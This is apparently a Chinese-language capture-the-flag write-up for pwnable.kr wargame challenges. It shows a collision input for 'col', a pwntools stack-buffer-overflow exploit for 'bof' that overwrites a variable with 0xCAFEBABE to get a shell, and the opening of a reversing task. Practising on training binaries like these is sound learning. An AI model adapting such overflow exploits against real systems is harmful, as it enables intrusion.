 构造如下

```
>>> hex(0x21DD09EC-2020305*4)
'0x19d4fdd8'
```

拿到flag

```shell
col@ubuntu:~$ ./col `python -c "print '\x05\x03\x02\x02' * 4 + '\xd8\xfd\xd4\x19'"`
++++++++++++++++++++++++++++++++++++++++
```



### bof

> Description：Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> On Jul 30th,2018

简单栈溢出，通过gets函数不检查长度的特性将a1覆盖为0xCAFEBABE

exp如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
context.log_level = 'debug'

io = process('./bof')
#io = remote('pwnable.kr', 9000)

payload = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1'#len = 0x2C+0x8
payload += p32(0xCAFEBABE)

io.sendlineafter(': \n',payload)

io.interactive()
```

那个9000好像挂了，连不上去。只能本地get_shell

![](http://wx1.sinaimg.cn/mw690/0060lm7Tly1ftrwvuqcaij30md08mtaa.jpg)



### flag

>Description：Papa brought me a packed present! let's open it.
>
>Download : http://pwnable.kr/bin/flag
>
>This is reversing task. all you need is binary
>
>On Jul 30th,2018

